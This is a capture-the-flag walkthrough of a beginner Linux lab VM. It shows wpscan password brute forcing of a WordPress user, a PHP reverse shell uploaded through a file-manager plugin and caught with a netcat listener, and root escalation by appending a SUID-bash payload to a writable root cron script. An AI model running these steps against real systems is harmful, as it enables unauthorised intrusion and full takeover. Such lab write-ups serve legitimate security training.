**Category:** Linux  
**Difficulty:** Beginner  

---

## Overview

This machine demonstrates:

- Directory enumeration  
- WordPress user and password brute forcing (wpscan)  
- PHP reverse shell upload  
- Privilege escalation via writable cron job  

---

## Reconnaissance

After launching the VM in VirtualBox, the target IP address is identified as:

```
192.168.56.109
```



---

## Enumeration

We begin with a port scan using rustscan: 

```bash
rustscan -a 192.168.56.109 -- -sC -sV
```



Two ports are open: 22(ssh) and 80(http) 
Rustscan passes results to Nmap for service detection and default script execution.



### Web Enumeration

Visiting port 80 shows the default Apache page.


Since nothing useful appears on the surface, we proceed with directory brute forcing

```bash
gobuster dir -u http://192.168.56.109 -w /usr/share/wordlists/dirb/common.txt
```



A `/wordpress` directory is discovered. Navigating to it shows what appears to be a standard academy-themed website.



Viewing the page source reveals that links resolve to `academy.thl`



This indicates a virtual host configuration. We thus add it to `/etc/hosts`

```bash
echo "192.168.56.109    academy.thl" | sudo tee -a /etc/hosts
```



Now we can properly enumerate the WordPress instance.

```bash
gobuster dir -u http://academy.thl/wordpress -w /usr/share/wordlists/dirb/common.txt
```



The `/wp-admin` endpoint is identified.

### WordPress Enumeration

Since WordPress login panels require credentials, we use wpscan to enumerate users

```bash
wpscan --url http://academy.thl/wordpress --no-update -e u
```

The `-e u` flag enumerates usernames and we discover one valid user : `dylan`



With the userame obtained, we can bruteforce the password

```bash
wpscan --url http://academy.thl/wordpress -U dylan --passwords /usr/share/wordlists/rockyou.txt --max-threads 10 --no-update
```

Password discovered is `password1`

 

---

##  Exploitation

We log into the WordPress dashboard using the discovered credentials.

 

We now have access to the WordPress admin dashboard.

 

In a standard wordpress admin panel, the first thing to explore is the installed plugins and in our case, they are :

- Akismet Anti-Spam  
- Bit File Manager  
- Hello Dolly  



Of particular interest is **Bit File Manager**, which provides file upload and management capabilities directly from the dashboard.

This becomes our attack vector.

---

## Initial Access

First, enable uploads in the plugin settings.

  

Next, upload a PHP reverse shell (from pentestmonkey).



Start a listeneron the attacking machine

```bash
rlwrap nc -lvnp 4444
```

Finally, trigger the shell

```bash
curl http://academy.thl/wordpress/shell.php
```

Shell received.

  

To improve the shell usability, we can spawn a tty shell and stabilise it

```bash
# spawn a tty shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# stabilise shell
CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

A stable interactive shell is obtained.

---

## Privilege Escalation

I first uploaded linpeas to search for privilege escalation vectors, but nothing useful appeared.

I then switched to pspy64, a tool that monitors processes without root privileges and reveals cron jobs.


```bash
# On attacker machine
python3 -m http.server:8000

# On target machine
wget http://<vboxnet-ip>:8000/pspy64

# Make it executable and execute it
chmod +x pspy64
./pspy64
```

---

### Cron Job Discovery

pspy64 reveals a process running every minute as UID 0 (root)

```
/bin/sh -c /opt/backup.sh
```



Navigating to `/opt`, we do not initially see `backup.sh`, only `backup.py`.



We check directory permissions:

```bash
ls -ld /opt
```

 

We discover ful access, inlcuding write permissions, as the current user, that allow us to create our own `backup.sh`.

---

### Cron Exploitation

We append a payload:

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash' >> /opt/backup.sh
```

This appends malicious commands to the cron-executed script.

On the next cron execution (within 60 seconds):

- A SUID copy of bash is created at `/tmp/rootbash`
- Permissions become: `-rwsr-xr-x`

We then make the script world-writable, though this is unecessary since the script executes as root anyway

```bash
chmod 4777 backup.sh
```



After waiting one minute:

```bash
/tmp/rootbash -p
```

This spawns a root shell.

 

---

## Flags

**User Flag**



**Root Flag**
 

---

Behold, machine pwnd



---

